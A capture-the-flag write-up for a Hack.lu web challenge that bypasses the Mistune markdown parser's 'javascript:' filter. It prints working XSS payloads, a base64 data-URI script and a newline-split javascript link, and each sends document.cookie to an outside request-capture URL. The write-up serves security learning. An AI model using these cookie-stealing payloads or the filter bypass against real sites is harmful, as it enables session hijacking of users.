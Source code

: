 # [HACK.LU-CTF] Mistune (Web)
##### **Description :** Markdown parsers are fun. Now click here and steal the cookie!

In this challenge, we have two forms to submit Markdown code that is parsed by Mistune.
The first form is for testing purposes and the second one's sent contents are read by an admin bot which has the flag in it's cookies.

In markdown syntax, we can create a XSS payload by using the link creation directive :
```javascript
[mylink](https://www.google.com)
[xss](javascript:alert`1`)
```

Mistune parser filters out the **javascript:** token. We need to find a way to bypass this filter to get a working XSS payload.
To do so, we try to use **data:text/html** but it only works on Firefox browser.
```javascript
[click](data:text/html;base64,PHNjcmlwdD53aW5kb3cubG9jYXRpb24gPSAiaHR0cHM6Ly9ob29rYmluLmNvbS9iaW4vdkRrWDlyanc/YWRtaW5fY29va2llPSIrZG9jdW1lbnQuY29va2llPC9zY3JpcHQ+)
```

We found some bypasses on Mistune's github [Issue#87](https://github.com/lepture/mistune/issues/87) but they are inefficient since the parser is up-to-date.
 
After many trials and errors, we came up with a filter bypass! The mighty newline character **\n** !
It's stripped out by the browser thus leading to a working XSS payload.
```javascript
[xss](javascript
:document.location="https://requestb.in/XXXXXXX?fckadmins="+document.cookie)
```

Boom! We got the flag!